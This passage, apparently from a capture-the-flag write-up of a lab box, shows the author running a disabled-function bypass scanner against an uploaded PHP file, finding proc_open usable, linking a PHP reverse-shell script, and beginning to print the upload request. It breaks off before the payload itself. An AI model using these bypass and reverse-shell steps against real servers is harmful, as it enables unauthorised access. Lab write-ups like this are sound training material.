 I tried other things, I used PHP to list the files and folders on the machine. I tried reading many files but did not find anything. I tried reading the user's ssh key but did not have access. I got stuck at this point. I left the machine aside and worked on others for a while. 


## Finally a Shell

When I came back to this box, I tried to bypass the disabled functions again. I tried a few things I found, but none of them worked. 

I came across a [Python script](https://github.com/teambi0s/dfunc-bypasser) that took the output of `phpinfo()` and checked for functions that are not disabled and can be exploited. The code failed to parse the list of functions. It's 3 years old and the format might have changed. I hardcoded the list of functions directly in the code and ran it.

```bash
$ python2 dfunc-bypasser.py --url http://dev.siteisup.htb/uploads/test.php


                                ,---,     
                                  .'  .' `\   
                                  ,---.'     \  
                                  |   |  .`\  | 
                                  :   : |  '  | 
                                  |   ' '  ;  : 
                                  '   | ;  .  | 
                                  |   | :  |  ' 
                                  '   : | /  ;  
                                  |   | '` ,/   
                                  ;   :  .'     
                                  |   ,.'       
                                  '---'         


                        authors: __c3rb3ru5__, $_SpyD3r_$


Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

`proc_open` was not disabled. I found a [small script](https://github.com/Taintedtrickstr/Reverse_Shells/blob/main/PHP_Proc_Open_Reverse_Shell) that showed how to exploit it to run commands on the server. 


I used it to get a shell on the server. 

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 1006
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
```